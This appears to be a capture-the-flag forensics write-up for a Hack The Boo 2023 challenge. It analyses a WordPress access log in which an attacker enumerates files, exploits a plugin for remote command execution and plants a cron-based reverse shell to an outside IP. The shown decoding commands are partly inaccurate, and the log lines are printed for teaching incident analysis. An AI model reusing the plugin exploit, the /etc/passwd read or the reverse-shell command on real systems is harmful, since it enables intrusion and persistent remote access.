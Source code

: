 ```yaml
---
layout: default
title: Wide
---
```


# [Hack The Boo 2023 - Practice](index.md) - Forensics - Vulnerable Season

> Halloween season is a very busy season for all of us. Especially for web page administrators. Too many Halloween-themed parties to attend, too many plugins to manage. Unfortunately, our admin didn't update the plugins used by our WordPress site and as a result, we got pwned. Can you help us investigate the incident by analyzing the web server logs?

We are provided with a single file - `access.log`.

```
192.168.25.1 - - [28/Sep/2023:00:46:16 -0400] "GET /wordpress/wp-includes/js/zxcvbn.min.js HTTP/1.1" 200 400401 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:41 -0400] "POST /wordpress/wp-login.php HTTP/1.1" 200 3281 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:41 -0400] "POST /wordpress/wp-cron.php?doing_wp_cron=1695876461.7606439590454101562500 HTTP/1.1" 200 259 "-" "WordPress/6.3.1; http://johnathan.dev/wordpress"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-admin/css/l10n.min.css?ver=6.3.1 HTTP/1.1" 200 1022 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-admin/css/forms.min.css?ver=6.3.1 HTTP/1.1" 200 6858 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-includes/css/buttons.min.css?ver=6.3.1 HTTP/1.1" 200 1791 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-includes/css/dashicons.min.css?ver=6.3.1 HTTP/1.1" 200 36068 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-admin/css/login.min.css?ver=6.3.1 HTTP/1.1" 200 2493 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-includes/js/jquery/jquery.min.js?ver=3.7.0 HTTP/1.1" 200 30696 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-includes/js/jquery/jquery-migrate.min.js?ver=3.4.1 HTTP/1.1" 200 5223 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
...
```

Looks like it's a web server log.

Skimming the logs, we can see that `82.179.92.206` is likely "dirbusting" this server to find vulnerabilities.

```
...
82.179.92.206 - - [28/Sep/2023:05:13:53 -0400] "GET /wordpress/.env-sample HTTP/1.1" 404 437 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
82.179.92.206 - - [28/Sep/2023:05:13:53 -0400] "GET /wordpress/.env.dev HTTP/1.1" 404 437 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
82.179.92.206 - - [28/Sep/2023:05:13:53 -0400] "GET /wordpress/.env.dev.local HTTP/1.1" 404 437 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
82.179.92.206 - - [28/Sep/2023:05:13:53 -0400] "GET /wordpress/.env.development.sample HTTP/1.1" 404 437 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
82.179.92.206 - - [28/Sep/2023:05:13:53 -0400] "GET /wordpress/.env.development.local HTTP/1.1" 404 437 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
82.179.92.206 - - [28/Sep/2023:05:13:53 -0400] "GET /wordpress/.env.docker HTTP/1.1" 404 437 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
...
```

And judging by the end of the log, it looks like the bad guy got in, and the server admin was likely kicked out

```
68.124.212.176 - - [28/Sep/2023:05:30:36 -0400] "POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1" 200 1913 "http://johnathan.dev/wordpress/wp-login.php?action=lostpassword" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.43"
68.124.212.176 - - [28/Sep/2023:05:30:37 -0400] "POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1" 200 1913 "http://johnathan.dev/wordpress/wp-login.php?action=lostpassword" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.43"
68.124.212.176 - - [28/Sep/2023:05:30:37 -0400] "POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1" 200 1913 "http://johnathan.dev/wordpress/wp-login.php?action=lostpassword" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.43"
68.124.212.176 - - [28/Sep/2023:05:30:37 -0400] "POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1" 200 1913 "http://johnathan.dev/wordpress/wp-login.php?action=lostpassword" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.43"
68.124.212.176 - - [28/Sep/2023:05:30:37 -0400] "POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1" 200 1913 "http://johnathan.dev/wordpress/wp-login.php?action=lostpassword" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.43"
68.124.212.176 - - [28/Sep/2023:05:30:38 -0400] "POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1" 200 1913 "http://johnathan.dev/wordpress/wp-login.php?action=lostpassword" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.43"
```

Starting on line 11473 we can see that the attacker was able to access some tiles that they shouldn't, judging by the HTTP status codes (200 instead of 404) 
```
82.179.92.206 - - [28/Sep/2023:05:16:46 -0400] "GET /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:id:NULL:NULL HTTP/1.1" 200 539 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
82.179.92.206 - - [28/Sep/2023:05:17:03 -0400] "GET /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:whoami:NULL:NULL HTTP/1.1" 200 493 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
82.179.92.206 - - [28/Sep/2023:05:17:44 -0400] "GET /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:cat%20/etc/passwd:NULL:NULL HTTP/1.1" 200 544 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
82.179.92.206 - - [28/Sep/2023:05:18:23 -0400] "GET /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:pwd:NULL:NULL HTTP/1.1" 200 522 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
82.179.92.206 - - [28/Sep/2023:05:21:22 -0400] "GET /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:echo%20%22sh%20-i%20%3E&%20/dev/tcp/82.179.92.206/7331%200%3E&1%22%20%3E%20/etc/cron.daily/testconnect%20&&%20Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo%20$Mz$Tz$Vz$az$Kz$Oz|base64%20-d|rev:NULL:NULL HTTP/1.1" 200 512 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```

Knowing that the flag is in this log file somewhere, I'm looking for larger blobs of code or encoded text. I spot something on line 11477:
```
field=field:exec:echo%20%22sh%20-i%20%3E&%20/dev/tcp/82.179.92.206/7331%200%3E&1%22%20%3E%20/etc/cron.daily/testconnect%20&&%20Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo%20$Mz$Tz$Vz$az$Kz$Oz|base64%20-d|rev:NULL:NULL
```
If we urldecode this it's a bit more readable - clearly some commands for a Linux system of some sort - a reverse shell hidden in cron so that it runs daily (granting persistence). 
```bash
field=field:exec:echo "sh -i >& /dev/tcp/82.179.92.206/7331 0>&1" > /etc/cron.daily/testconnect && Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64 -d|rev:NULL:NULL
```

The rest of this line looks fishy though - like it's hidden data rather than malicious code... I'd expect it to _run_ something, not deobfuscate it into an `echo` command and then bade64 decoding it with `base64 -d`.

```bash
Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64
```
```
}r3Nn1gEb_4_t5yl4n@_g0L{BTH
```

Lets put the `|rev` back on the end to put that the right way around...

```bash
Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64|rev
```

It looks like some bash obfuscation happening here, but this looks like if we just copy this part of it out and run it in bash, it should decode it and display it.

```
HTB{L0g_@n4ly5t_4_bEg1nN3r}
```